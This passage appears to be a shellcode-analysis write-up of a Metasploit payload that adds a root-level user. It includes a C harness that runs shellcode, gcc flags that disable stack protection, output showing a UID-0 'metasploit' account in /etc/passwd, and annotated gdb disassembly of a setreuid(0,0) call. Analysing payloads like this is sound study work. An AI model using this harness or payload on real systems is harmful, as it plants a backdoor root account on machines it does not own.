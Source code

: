 ```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"Pur your shellcode here";

int main()
{

        printf("taille %lu\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

Then complied:

```c
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

We run the program and observe the modifications:


```c
./shellcode
more /etc/passwd | tail -1
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

There is indeed an user that has been added up. 

### Code Analysis ###

We launch **gdb** and  observe the code below :

At first, the effective user ID l'id is defined at 0 which is root.
```c
    
    ; setreuid syscall (Fixe les ID d'utilisateur effectif et réel du processus appelant)
    ; int setreuid(uid_t ruid, uid_t euid);
    ; setreuid(0,0)

=> 0x08048500 <+0>:	xor    ecx,ecx      ; set ecx to 0
   0x08048502 <+2>:	mov    ebx,ecx      ; ebx and ecx are set to 0
   0x08048504 <+4>:	push   0x46         ; setreuid syscall
   0x08048506 <+6>:	pop    eax			
   0x08048507 <+7>:	int    0x80         ;  setreuid(0,0)           
````
